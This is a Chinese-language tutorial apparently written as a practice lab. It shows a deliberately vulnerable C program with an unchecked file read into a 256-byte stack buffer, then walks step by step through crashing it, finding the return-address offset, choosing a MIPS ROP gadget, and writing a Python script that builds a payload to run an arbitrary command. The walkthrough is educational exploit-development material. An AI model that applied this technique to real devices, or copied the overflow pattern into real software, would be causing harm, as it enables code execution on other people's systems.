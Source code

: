 # 一：源码
### 实现功能：从文件passwd读取密码并判断是否是adminpwd，从而执行设定好的ls命令。
### 存在漏洞：程序中并未对文件大小做出限制，而所给缓冲区只有256个字节。
### 目标：构造ROP链实现执行任意命令
~~~ 
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
void do_system(int code ,char* cmd)
{

	char buf[255];
	system(cmd);
}

void main()
{
	char buf[256] = {0};
	char ch;
	int count = 0;
	unsigned int filelen = 0;
	struct stat filedata;									//获取文件信息
	FILE*fp;    
	if(0== stat("passwd",&filedata))
	{
		filelen=filedata.st_size;							//获取文件大小
	}
	else
	{
	
		return 1;
	}
	if((fp=fopen("passwd","rb"))==NULL)						//打开文件
	{
		printf("cannot open file passwd!\n");
		exit(1);
	}
	ch=fgetc(fp);
	while(count<=filelen)
	{
		buf[count++] = ch;									//循环读取内容到堆栈中
		ch = fgetc(fp);
	}
	buf[--count] = '\x00';
	if(!strcmp(buf,"adminpwd"))
	{
		do_system(count,"ls -l");							//执行ls -l命令
	
	}
	else
	{
		printf("you have an invalid password!\n");
	}
	fclose(fp);

}
~~~

# 二：实施步骤
#### 1：劫持PC（搞崩程序）
通过使用python命令，生成一个具有600个‘A’的文件passwd
~~~
python -c "print 'A'*600">passwd
~~~
之后执行程序后成功崩溃。

#### 2：确定偏移
~~~
//经过动态调试可知此处就是在读取文件中的字节到堆栈中，此时我们记录一下堆栈地址add1 = （$v0+0x18）
004005C4                 sb      $v1, 0x18($v0) 
//这条就是重新从堆栈中读取返回地址到寄存器，此时我们记录下堆栈地址add2 = $sp+0x1cc
0040070C                 lw      $ra, 0x1D0+var_4($sp)
~~~
记录完成之后count = add2-add1就是覆盖ra所需的字节数了。

#### 3：确定攻击途径
要执行任意命令，我们只需要能够更改函数do_system的第二个参数即可，所以我们的大致思路是，通过文件passwd对ra进行覆盖，让其跳转到具有从堆栈中取值到$a1,之后通过ra返回的gadget。
通过插件MIPS ROP Finder进行搜索，使用方法点击edit-plugins-MIPS ROP Finder,之后在脚本栏中输入mipsrop.stackfinders()可以找到一条符合要求的指令如下：
~~~
.text:004037A0                 addiu   $a1, $sp, 0x58+var_40   //从$sp+0x18处取值到$a1
.text:004037A4                 lw      $ra, 0x58+var_4($sp)    //从$sp+0x54处取返回地址到ra
.text:004037A8                 sltiu   $v0, 1
.text:004037AC                 jr      $ra
~~~
那我们只要覆盖返回地址为004037A0，将$sp+0x18改为我们想要执行的cmd命令，将$sp+0x54改为do_system地址即可

#### 4：构建shellcode
使用python脚本构建源码如下
~~~
#exploit.py
import struct
print '[*]prepare shellcode',
#设置要执行的cmd命令
cmd = 'pwd'
cmd+="\x00"*(4-len(cmd)%4)

#构建shellcode
shellcode="A"*0x19c
shellcode+=struct.pack('>L',0x4037a0)
shellcode+='A'*24
shellcode+=cmd
shellcode+='B'*(0x3c-len(cmd))
shellcode+=struct.pack('>L',0x4006c0)
shellcode+='BBBB'
print 'ok!'
print '[+]write shellcode to file',

#写入文件passwd
fw=open('passwd','w')
fw.write(shellcode)
fw.close()
print 'ok!'
~~~
![ROP](ROP.png)
